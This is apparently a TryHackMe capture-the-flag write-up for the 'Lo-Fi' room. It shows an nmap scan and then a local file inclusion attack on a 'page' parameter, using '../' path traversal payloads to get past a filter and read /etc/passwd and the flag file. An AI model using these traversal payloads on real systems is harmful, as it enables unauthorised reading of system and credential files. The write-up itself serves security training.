




# Lo-Fi — TryHackMe Writeup

| Room | Difficulty | Category | Target |
| :--- | :--- | :--- | :--- |
| [Lo-Fi](https://tryhackme.com/room/lofi) | Easy | Web / LFI | `10.49.158.226` |

---

## 📖 Overview

The **Lo-Fi** challenge on TryHackMe is a beginner-friendly web security room focusing on identifying and exploiting Local File Inclusion (LFI) via path traversal vulnerabilities to retrieve a flag from the filesystem root.

---

## 🛠️ Walkthrough

### 1. Reconnaissance

Run an Nmap service scan to discover open ports and active services:

```bash
nmap -sV <TARGET_IP> -o nmap_result.txt
```

**Identified Ports:**
- **22/tcp**: Open (SSH)
- **80/tcp**: Open (HTTP)



---

### 2. Web Enumeration

Access the web service on `http://<TARGET_IP>`.

Reviewing the page source shows that playlist navigation links pass target filenames into a `page` query parameter:

```html
<li><a href="/?page=relax.php">Relax</a></li>
<li><a href="/?page=sleep.php">Sleep</a></li>
```


Navigating to one of the playlist links loads the page via `/?page=relax.php`:

```text
http://<TARGET_IP>/?page=relax.php
```

This parameter structure suggests the application may be vulnerable to Local File Inclusion (LFI).

---

### 3. Local File Inclusion (LFI) Testing & Filter Bypass

Attempting direct file inclusion using an absolute path (`/etc/passwd`):

```text
http://<TARGET_IP>/?page=/etc/passwd
```

The application detects the attempt and returns a security warning:


Bypass the filter using relative directory traversal (`../`) sequences:

```text
http://<TARGET_IP>/?page=../../../etc/passwd
```

The traversal bypass successfully retrieves and displays the system's `/etc/passwd` file:



---

### 4. Flag Retrieval

The challenge description notes that the flag is stored in the root of the filesystem.

Attempting to read `../../../flag` indicates that the file does not exist:

```text
http://<TARGET_IP>/?page=../../../flag
```



Appending the `.txt` extension to target `../../../flag.txt`:

```text
http://<TARGET_IP>/?page=../../../flag.txt
```

The file exists and reveals the flag directly on the webpage.



---

## 🚩 Flag

```text
flag{REDACTED}
```

---
